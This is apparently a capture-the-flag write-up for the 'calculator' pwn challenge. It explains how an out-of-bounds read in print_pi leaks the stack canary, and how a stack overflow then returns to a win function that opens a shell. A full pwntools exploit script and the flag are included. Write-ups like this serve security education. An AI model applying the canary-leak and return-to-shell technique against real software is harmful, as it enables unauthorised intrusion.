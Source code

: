 https://ctftime.org/event/2449

# calculator (pwn)

nc challs.pwnoh.io 13377

## Analysis

We can see that this binary has stack canaries but no PIE:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

`main` @ `0x0040131f`
- Allows us to compute the result of an operation on two operands
- Gives us a stack buffer overflow with `fgets` that allows us to control the return address

`parse_operand` @ `0x004017ec`
- Checks if the user specified `pi` as an operand
- If so it uses `request_pi_precision` to determine the value of pi to use

`request_pi_precision` @ `0x004015e5`
- Asks the user to specify the value that will be passed to `print_pi` as its first argument

`print_pi` @ `0x004016a5`
- `putchar`s bytes from a buffer on the stack
- Uses the function's first arg to determine the offset from the buffer on the stack
- we can specify a precision of more than 10000 in order to read out of bounds
- The `pi` buffer is adjacent to the stack canary
- Therefore specifying a precision of 10016 will cause this function to leak the stack canary

`win` @ `0x004012f6`
- Calls `system("/bin/sh")` for us
- Note that when returning to this function we need to jump to offset 0x17 in order to align the stack correctly for the call to `system`

## Solution

1) Ask the calculator to perform `1 * pi`
2) Specify a number of digits for `pi` such that it leaks the canary on the stack
3) Return to `win` - taking care to use the leaked canary 

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./calc", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript=" b main")
p = remote("challs.pwnoh.io", 13377)

p.sendlineafter(b"operand: ", b"1")
p.sendlineafter(b"operator: ", b"*")
p.sendlineafter(b"operand: ", b"pi")
p.sendlineafter(b" use: ", str("10016").encode())

p.readuntil(b"That is: ")
line = p.readline()
canary = u64(line[-11:-3])

payload = b""
payload += b"A" * 0x28
payload += p64(canary)
payload += p64(0)
payload += p64(elf.sym["win"] + 0x17)
p.sendline(payload)

p.readuntil(b"here: ")

p.sendline(b"/bin/cat flag.txt")

p.interactive() # bctf{cAn4r13S_L0v3_t0_34t_P13_c760f8cc0a44fed9}
```

## Flag
`bctf{cAn4r13S_L0v3_t0_34t_P13_c760f8cc0a44fed9}`

smiley 2024/09/29
